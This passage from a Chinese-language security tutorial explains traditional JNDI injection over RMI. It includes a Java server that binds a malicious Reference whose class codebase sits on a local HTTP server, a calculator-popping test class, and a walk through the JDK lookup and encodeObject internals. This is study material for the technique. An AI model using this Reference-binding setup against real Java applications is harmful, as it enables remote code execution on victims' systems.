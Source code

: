 自己可以运行下试试，不运行JNDIRMIServer.java的话，JNDI客户端一样可以获取到remoteObj服务端。

# JNDI Reference(传统JNDI注入)

JNDIRMIServer.java

**把引用Reference绑在RMI服务上**

Test.class是弹计算器的，放在本地目录。python开启个http服务。

```java
public class JNDIRMIServer {
    public static void main(String[] args) throws Exception {
        InitialContext initialContext = new InitialContext();

        //Reference
        Reference refObj = new Reference("Test", "Test", "http://localhost:4444/");
        initialContext.rebind("rmi://localhost:1099/remoteObj", refObj);

    }
}
```

攻击场景：我们可以控制恶意服务端绑定一个恶意Reference，让受害端lookup这个reference就能实现攻击。

下面跟进一下JNDIRMIClient中`IRemoteObj remoteObj = (IRemoteObj) initialContext.lookup("rmi://localhost:1099/remoteObj");`lookup方法的逻辑。

lookup最终调用到`registry.lookup("remoteObj");`

但是注意一下lookup函数返回的是一个ReferenceWrapper_Stub，而我们绑定时绑定的是Reference。

![image-20240727174142434](https://s2.loli.net/2024/07/27/h3rj9KdsT2BJvgP.png)

再看下绑定时的逻辑

最终调用到registry.rebind();方法，注意到有个encodeObject处理。

![image-20240727175743713](https://s2.loli.net/2024/07/27/WOE8wHY1mzdtupn.png)

**关于ReferenceWrapper_Stub，这个Stub的生成是在`new ReferenceWrapper((Reference)var1)  `里面生成的Stub（因为ReferenceWrapper继承了UnicastRemoteObject，和我们自己写的RMI接口实现类是一样的）。因为是结合的RMI，所以客户端是通过Stub和注册中心交流的（我是这么理解的）**

```java
private Remote encodeObject(Object var1, Name var2) throws NamingException, RemoteException {
    var1 = NamingManager.getStateToBind(var1, var2, this, this.environment);  
    if (var1 instanceof Remote) {
        return (Remote)var1;
    } else if (var1 instanceof Reference) {     //如果是Reference类型，则把它封装在ReferenceWrapper里面。
        return new ReferenceWrapper((Reference)var1);
    } else if (var1 instanceof Referenceable) {
        return new ReferenceWrapper(((Referenceable)var1).getReference());
    } else {
        throw new IllegalArgumentException("RegistryContext: object to bind must be Remote, Reference, or Referenceable");
    }
}
```
